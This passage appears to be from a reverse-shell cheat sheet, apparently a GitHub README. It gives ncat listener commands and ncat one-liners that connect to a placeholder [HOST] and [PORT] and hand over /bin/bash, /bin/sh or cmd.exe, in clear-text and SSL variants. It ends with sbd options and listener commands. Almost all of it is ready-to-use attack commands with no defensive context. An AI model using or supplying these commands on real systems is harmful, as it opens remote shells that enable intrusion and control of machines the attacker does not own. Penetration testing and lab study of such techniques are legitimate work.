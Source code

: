 ### Listener (SSL/TLS)
```
ncat --ssl -nvlp [PORT]
```
```
ncat.exe --ssl -nvlp [PORT]
```

### *nix (clear-text)
```
ncat -nv -e /bin/bash [HOST] [PORT]
```
```
ncat -nv -e /bin/sh [HOST] [PORT]
```

### *nix (SSL/TLS)
```
ncat -nv --ssl -e /bin/bash [HOST] [PORT]
```
```
ncat -nv --ssl -e /bin/sh [HOST] [PORT]
```

### Windows (clear-text)
```
ncat.exe -nv -e cmd.exe [HOST] [PORT]
```

### Windows (SSL/TLS)
```
ncat.exe -nv --ssl -e cmd.exe [HOST] [PORT]
```


## sbd
sbd is a netcat variant that supports encrypted connections utilizing "AES-CBC-128 + HMAC-SHA1" encryption.

### Options
```
-n: numeric-only IP addresses
-v: verbose
-e [PROGRAM_NAME]: execute program after connecting
-l: listen for incoming connections
-p: port to listen on
```

### Listener
```
sbd -nvlp [PORT]
```
```
sbd.exe -nvlp [PORT]
```
